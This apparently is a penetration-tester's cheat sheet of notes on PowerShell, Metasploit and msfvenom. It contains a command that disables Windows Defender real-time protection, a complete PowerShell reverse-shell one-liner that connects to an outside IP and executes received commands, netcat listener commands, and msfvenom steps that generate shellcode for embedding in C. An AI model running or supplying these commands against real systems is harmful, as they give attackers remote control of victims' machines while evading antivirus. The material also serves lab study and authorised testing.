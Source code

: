 - **Powershell**
```
# Disable antivirus
Set-MpPreference -DisableRealtimeMonitoring $true

# Shell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
- **Reverse shell**
  - [More shells](https://highon.coffee/blog/reverse-shell-cheat-sheet/)

- **Listener**
  - nc -nlvp PORT ==> TCP listener
  - nc -ulvnp PORT ==> UDP listener

### Metasploit
- [Community vs Pro](https://www.rapid7.com/products/metasploit/download/editions/) 
- [Exploits](https://github.com/rapid7/metasploit-framework/tree/master/modules/exploits)
  - paste: /usr/share/metasploit-framework/modules/exploits
- Load Module
  - Find module in searchsploit
  - Copy module to same folder structure but in *.msf4/module/*
  - in msfconsole run *reload_all*

```
# Find module in searchsploit
searchsploit module_name

# Create a similar folder as module in the msf path + 
```
- use exploit/multi/handler
  - post/multi = post exploitation (generic)

- search
  - platform:
  - type:
  - author:
  - app:
  - name
- show options
- setg => set global valules
- unsetg => unset global values
- background => putting a session in backgrou
- sessions => display sessions
- Direct execution
  - msf -q -x "use exploit/path/to; set payload path/to/payload; set optionsName Name; exploit""

### MSFvenom
- List payloads
  - msfvenom -l payloads | encoders | nos | platforms | formats | all
  - -p payload --list-options
- Many platforms and formats
- Example generate hex of payload:
  - Method 1
    - msfvenom -a x86 --platform windows -p windows/exec cmd=calc.exe -f c
  - raw binary file .bin:
    - binary ==> msfvenom -a x86 --platform windows -p windows/exec cmd=calc.exe -f raw > /tmp/example.bin
  - convert to hex:
    - xxd -i file.bin ==> generate payload for .c